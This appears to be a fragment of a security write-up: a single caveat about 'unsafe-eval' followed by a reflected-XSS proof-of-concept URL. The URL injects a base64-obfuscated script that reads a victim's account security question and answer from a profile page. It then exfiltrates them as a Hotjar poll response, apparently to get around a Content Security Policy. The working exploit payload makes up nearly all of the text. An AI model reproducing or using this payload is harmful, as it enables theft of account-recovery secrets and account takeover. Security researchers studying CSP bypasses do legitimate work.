

Notice this PoC would require ‘unsafe-eval’ allowed in the script-src as well.

https://hotjar.keyfc.xyz/secret.php?msg=hello%22;eval(atob(%22ZmV0Y2goJy9wcm9maWxlLnBocCcpLnRoZW4oZnVuY3Rpb24gKHJlc3BvbnNlKSB7CiAgcmV0dXJuIHJlc3BvbnNlLnRleHQoKTsKfSkudGhlbihmdW5jdGlvbiAoaHRtbCkgewogIC8vIFRoaXMgaXMgdGhlIEhUTUwgZnJvbSBvdXIgcmVzcG9uc2UgYXMgYSB0ZXh0IHN0cmluZwogIGNvbnN0IHBhcnNlciA9IG5ldyBET01QYXJzZXIoKTsKICAgIGNvbnN0IHBkID0gcGFyc2VyLnBhcnNlRnJvbVN0cmluZyhodG1sLCAidGV4dC9odG1sIik7CiAgICBzcT0ocGQuZ2V0RWxlbWVudEJ5SWQoJ3NlY3VyaXR5X3F1ZXN0aW9uJykpLnZhbHVlOwogICAgc2E9KHBkLmdldEVsZW1lbnRCeUlkKCdzZWN1cml0eV9hbnN3ZXInKSkudmFsdWU7CiAgICB2YXIgZGF0YSA9eyJ1dGsiOm51bGwsInJlc3BvbnNlX2NvbnRlbnQiOiJ7XCJ2ZXJzaW9uXCI6NCxcImFuc3dlcnNcIjpbe1wicXVlc3Rpb25VdWlkXCI6XCI3ODk0MjI5MlwiLFwiYW5zd2VyXCI6XCJTb21ldGhpbmcgZWxzZVwiLFwiY29tbWVudFwiOlwiIitzcSsiPzogIitzYSsiXCJ9XX0iLCJxdWVzdGlvbnNfc2VlbiI6WyI3ODk0MjI5Mi1jYmY2LTQ2NjctYjkwMi0yMTA0ZDMyMzRjMzMiXSwiZmlyc3Rfc2VlbiI6dHJ1ZSwiYWN0aW9uIjoiY3JlYXRlX29yX3VwZGF0ZV9wb2xsX3Jlc3BvbnNlIiwid2luZG93X3dpZHRoIjoxODQ4LCJ3aW5kb3dfaGVpZ2h0Ijo0NTIsInVzZXJfaWQiOiJlNjMxYTVhMS0wNGM5LTU4MTAtODgwMy0zNzhiNTQ1NDk4NTYiLCJ1cmwiOiJodHRwczovL2hvdGphci5rZXlmYy54eXovZGVtbzEtaG90amFyLnBocCIsImlkZW50aWZ5X3VzZXJfaWQiOm51bGx9OwoKICBmZXRjaCgiaHR0cHM6Ly9hc2suaG90amFyLmlvL2FwaS92Mi9jbGllbnQvc2l0ZXMvMzQyOTkxNC9wb2xsLzkyMzkzNS9yZXNwb25zZS84NWNjMWJlYS0xOWJiLTQ5NjMtOTJlMi0wMGI0ODFjNmJlOTgiLCB7CiAgICBtZXRob2Q6ICJQT1NUIiwKICAgIGhlYWRlcnM6IHsKICAgICJDb250ZW50LVR5cGUiOiAiYXBwbGljYXRpb24vanNvbiIsCiAgICB9LAogICAgYm9keTogSlNPTi5zdHJpbmdpZnkoZGF0YSksCiAgfSkKICAgIC50aGVuKChyZXNwb25zZSkgPT4gcmVzcG9uc2UuanNvbigpKQogICAgLnRoZW4oKGRhdGEpID0%2bIHsKICAgIGNvbnNvbGUubG9nKCJTdWNjZXNzOiIsIGRhdGEpOwogICAgfSkKICAgIC5jYXRjaCgoZXJyb3IpID0%2bIHsKICAgIGNvbnNvbGUuZXJyb3IoIkVycm9yOiIsIGVycm9yKTsKICAgIH0pOwogICAgICAgICAKfSkuY2F0Y2goZnVuY3Rpb24gKGVycikgewogIC8vIFRoZXJlIHdhcyBhbiBlcnJvcgogIGNvbnNvbGUud2FybignU29tZXRoaW5nIHdlbnQgd3Jvbmcgb24gR0VUIHByb2ZpbGUucGhwLicsIGVycik7Cn0pOwo%3d%22));//

https://bit.ly/hotjar2